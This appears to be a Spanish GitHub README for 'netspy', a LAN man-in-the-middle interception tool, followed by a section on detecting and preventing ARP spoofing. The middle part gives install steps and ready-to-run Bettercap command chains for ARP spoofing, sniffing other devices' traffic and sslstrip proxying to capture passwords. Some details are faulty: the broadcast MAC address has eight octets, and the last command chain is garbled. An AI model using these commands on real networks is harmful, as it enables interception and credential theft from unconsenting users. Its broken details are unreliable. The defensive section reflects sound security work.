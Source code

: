 # Interceptacion Ethernet

MiTM interceptación de trafico LAN en claro:

Estenarios:

1º.- Interceptación entre 2 puntos:

Disponer de acceso a uno de los 2 puntos, e instalar en altuno de los extremos: Wireshark, nifsoft, Bettercap, Ethercap, Extension navegador, netspym etc..

2º.- Red LAN con HUB o switch sin inteligencia:

Instalar un PC conectado al HUB, con la *** tarjeta *** de red en modo promiscuo, que escuche todo el trafico de la red. Tener instalado Wireshark, netspy,etc
Modificar MAC Adrees de un PC conectado a la red, con la MAC Broadcast FF:FF:FF:FF:FF:FF:FF:FF que escurche todo el trafico de la red

3º.- En una red LAN con Switch inteligente:

Configurar port mirroning en el switch para que una copia de todo el trafico se encamine a una sola ethernet del switch, donde hay un PC en modo promiscuo con Wirehark, netspy, etc.. capturando 

En un PC conectado a la red instalar un Proxy, para hacer pasar, encaminar por el e interceptar el trafico!

En un PC conectado instala un Proxy trasparente. Usa ARP Spoofing, suplantación de MAC, para encaminar y poder ver e interceptar  el trafico de otros dispositivos!

<img style="float:left" alt="Escenarios interceptacion" src="https://github.com/hackingyseguridad/netspy/blob/master/MiTM.png">
#
<img style="float:left" alt="netspy logo" src="https://github.com/hackingyseguridad/netspy/blob/master/netspy.png">

# netspy

# 1.- Descubre elementos de red 2.- Captura y muestra en pantalla el trafico.

# Instalacion:

apt-get install bettercap

apt-get install netdiscover

git clone https://github.com/hackingyseguridad/netspy

cd netspy

chmod 777 netspy

# Uso.:

sh netspy

sh proxynetspy

netdiscover

IMPORTANTE: Para salir del modo de descubrimiento 'net probe on' y empezar a esnifar teclea 'exit'.

# Bettercap v2.9

Escanear toda la Red:

net.probe on; ticker on

Banear tarjet IP con ARP:

set arp.spoof.targets IP; arp.spoof on; set arp.ban on; net.probe on

Capturar trafico en fichero siff_all.pcap:

net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.output /tmp/sniff_all.pcap; set net.sniff.verbose false; net.sniff on

Ver Trafico:

net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.verbose false; net.sniff on

Ver trafico web por proxy y extrae claves:

net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.verbose false; net.sniff on; http.proxy on; set http.proxy.sslstrip true

Ver trafico web por proxy y extrae claves de cifrados debiles:

net.probe on; set arp.spoof.targets; arp.spoof on; set net.sniff.verbose false; net.sniff on; http.proxy on;  true; set http.proxy.port 80; set https.proxy.port 443; http.proxy on; https.proxy on; set http.proxy.sslstrip


Versiones antiguas Bettercap: 1.6.1 y 1.6.2 en Python

El ARP Spoofing, o envenenamiento ARP, es un tipo de ataque cibernético que puede comprometer seriamente la seguridad de una red local. Consiste en la manipulación de la tabla ARP de un dispositivo para redirigir el tráfico de red hacia el atacante, permitiéndole interceptar y modificar la información que fluye por la red.
¿Cómo detectar un ataque de ARP Spoofing?
Dado que este tipo de ataque suele ser silencioso y difícil de detectar a simple vista, es fundamental contar con herramientas y técnicas específicas. Aquí te presentamos algunas:
Herramientas de Detección:
•	Sniffers de paquetes: Herramientas como Wireshark te permiten analizar el tráfico de red en tiempo real. Al examinar los paquetes ARP, puedes identificar patrones inusuales o respuestas ARP falsas.
•	Sistemas de detección de intrusiones (IDS): Un IDS bien configurado puede detectar anomalías en el tráfico de red, como un aumento repentino en el número de solicitudes ARP o respuestas ARP falsas.
•	Herramientas especializadas: Existen herramientas diseñadas específicamente para detectar ARP Spoofing, como ARPwatch, que monitorea la tabla ARP y alerta sobre cambios inesperados.
Técnicas de Detección:
•	Monitoreo de la tabla ARP: Revisa regularmente la tabla ARP de los dispositivos de tu red para identificar entradas desconocidas o duplicadas.
•	Análisis de registros: Examina los registros del sistema y de las herramientas de seguridad para buscar cualquier indicio de actividad sospechosa, como intentos de acceso no autorizados o cambios en la configuración de la red.
•	Pruebas de penetración: Realiza pruebas de penetración periódicas para identificar vulnerabilidades en tu red y evaluar la efectividad de tus medidas de seguridad.
•	Uso de protocolos de seguridad: Implementa protocolos de seguridad como DHCP Snooping, IP Source Guard y Dynamic ARP Inspection (DAI), que pueden ayudar a prevenir y detectar ataques de ARP Spoofing.
Síntomas de un Ataque de ARP Spoofing:
Aunque no siempre son evidentes, algunos síntomas pueden indicar un ataque de ARP Spoofing:
•	Problemas de conectividad: Dificultad para acceder a ciertos sitios web o servicios de red.
•	Pérdida de paquetes: Interrupciones en la comunicación o lentitud en la red.
•	Actividad sospechosa en la red: Detección de tráfico no autorizado o intentos de acceso a recursos sensibles.
•	Cambios inesperados en la configuración de red: Modificaciones no autorizadas en la configuración de los dispositivos de red.
Prevención del ARP Spoofing:
•	Configuraciones estáticas: Establece entradas ARP estáticas para dispositivos críticos, como routers y servidores.
•	Segmentación de redes: Divide tu red en segmentos más pequeños para limitar el impacto de un posible ataque.
•	Actualizaciones de software: Mantén todos tus dispositivos actualizados con los últimos parches de seguridad.
•	Educación de los usuarios: Sensibiliza a los usuarios sobre los riesgos de los ataques cibernéticos y cómo protegerse.
•	ARP firmado con certificado y clave PKI


https://github.com/hackingyseguridad/mitm

www.hackingyseguridad.com
